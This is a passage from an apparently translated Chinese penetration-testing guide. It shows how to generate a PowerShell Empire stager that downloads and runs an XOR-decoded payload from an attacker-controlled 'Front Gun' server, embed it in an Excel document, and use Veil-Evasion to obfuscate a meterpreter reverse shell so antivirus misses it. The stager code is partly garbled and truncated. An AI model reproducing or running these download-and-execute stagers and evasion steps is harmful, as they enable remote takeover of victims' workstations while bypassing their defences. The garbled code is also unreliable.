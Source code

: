 通过发出set命令（例如**设置端口443**）设置正确的端口和地址，然后通过输入来执行监听器。

现在我们需要生成回连此监听器的PowerShell代码。我们将这段代码称为“stager”或“agent”:

```text
(Emire) > Usestager launcher 
(Emire) > Set Listener test 
(Emire) > Set Base64 False
(Emire) > Set OutFile /root/stager.ps1

[SysTeM.NET.SErVicePOinTMaNAGer]::EXPeCt10 = 0;
$wC=NEw-ObjEct SYstEM.Net.WEbCLIenT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$Wc.HeaderS.Add('User-Agent',$u);
$Wc.PROXy= [SystEm.NEt.WebREQuest]::DefAuLtWEBPROxy;
$W [SYsTEM.NeT.CREDENtiAlCAChe]::DefAulTNeTwORK[chAr[]]$b=([cHaR[]] ($WC.DowNLOAdStrinG("http://<Front_Gun>:443/index.{$_-bXor$K[$i++%$k.LEngTH]};
IEX ($B-joIn'')
```

您可以看到代理使用对称加密密钥来传输有效负载并很好地处理工作站上定义的任何潜在代理。在远程计算机上执行脚本时，我们会在Front Gun服务器上收到新通知。

![](.gitbook/assets/10.stager.png)

我们将在接下来的章节中探讨Empire的一些有趣功能，同时您也可以通过help命令来了解 。

为了将此PowerShell脚本嵌入到Excel文档中，我们将使用常规的shell函数（如前所示）或依赖于LuckyStrike。

#### 4、Meterpreter  in VBA

为了替代使用PowerShell Empire的stager来获取shell，我们可以采取另一种方式，例如，通过部署一个来自Metasploit框架的meterpreter shell。就我们的直接目的而言，两个平台之间的差异相对较小。他们都有额外的模块来对受感染的工作站执行有趣的操作，但是使用两个stager会增加绕过SPH的反恶意软件解决方案（防病毒，沙箱，IDS等）的几率。

但是，如前所述，metasploit的有效载荷（包括meterpreter）是反病毒公司所熟知的，一旦被防病毒发现，就会发出告警。为了绕过这个告警，我们将使用另一种自动添加多层加密和混淆的工具生成相同的meterpreter payload：Veil-Evasion（项目地址:[https://github.com/Veil-Framework/Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) ，Veil-Evasion是与Metasploit生成相兼容的Payload的一款辅助框架,并可以绕过大多数的杀软）。

回顾一下，Veil-Evasion将在PowerShell中生成一个混淆的meterpreter shellcode，且这段代码将连接回连Front Gun服务器上的常规metasploit监听器，使得我们可以完全访问工作站。

干的漂亮。但是我们该怎么做呢？首先，我们需要在Linux上使用经典的apt-get install安装Veil-Evasion。安装时间有点长，但我们可以一次完成，非常简单直观： ![](.gitbook/assets/11.veil-evasion.png)

**list**命令显示所有可用的有效负载。我们选择PowerShell reverse\_https有效负载：
